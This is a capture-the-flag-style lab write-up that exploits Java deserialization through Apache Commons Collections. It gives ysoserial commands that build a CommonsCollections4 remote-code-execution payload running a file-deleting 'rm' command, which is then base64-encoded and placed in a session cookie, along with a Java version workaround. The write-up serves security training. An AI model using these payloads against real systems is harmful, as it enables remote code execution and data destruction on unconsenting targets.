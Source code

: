 # Exploiting Java deserialization with Apache Commons

## This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

## To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

Download the "ysoserial" tool and execute the following command:

### step2

login into an account
copy cookies and decode cookies
cookies starts with `rO0` which is a strong indication that it is a base64 encoded serialized Java object

![screenshot](./images/lab5_cookies.png)

### Payload `java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64`

─$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
Picked up \_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x4015e7ec) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x4015e7ec
at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
at ysoserial.payloads.CommonsCollections4.getObject(CommonsCollections4.java:32)
at ysoserial.payloads.CommonsCollections4.getObject(CommonsCollections4.java:26)
at ysoserial.GeneratePayload.main(GeneratePayload.java:34)

### step3

java --version  
Picked up \_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 17.0.6 2023-01-17
OpenJDK Runtime Environment (build 17.0.6+10-Debian-1)
OpenJDK 64-Bit Server VM (build 17.0.6+10-Debian-1, mixed mode, sharing)

### step4

### Error fix

to fix ### step2 error
run nti cmd
\_update-java-alternatives --list
java-1.11.0-openjdk-amd64 1111 /usr/lib/jvm/java-1.11.0-openjdk-amd64
java-1.17.0-openjdk-amd64 1711 /usr/lib/jvm/java-1.17.0-openjdk-amd64

### step5

sudo update-java-alternatives --set /usr/lib/jvm/java-1.11.0-openjdk-amd64

### step6

java --version  
Picked up \_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 11.0.17 2022-10-18
OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)

### step6

after changing java version
use the below command
$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 > CookiesToUse.txt

### step7

copy CookiesToUse.txt content into decoder
encode into  URL-encode

### step8

replace cookies with encoded url
forword request lab solved
